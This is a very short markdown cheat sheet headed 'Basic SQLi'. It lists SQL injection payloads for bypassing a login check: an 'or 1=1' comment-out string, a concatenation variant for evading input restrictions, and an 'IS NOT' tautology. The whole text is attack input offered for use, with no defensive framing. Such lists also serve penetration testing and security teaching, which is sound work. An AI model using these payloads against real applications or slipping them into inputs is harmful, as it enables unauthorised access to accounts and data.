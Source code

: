 # Basic SQLi:
```admin' or 1=1 -- ```

```ad'||'min``` used for concatenation when having restrictions. Also in conjunction with a true statement: ```a' IS NOT 'b```
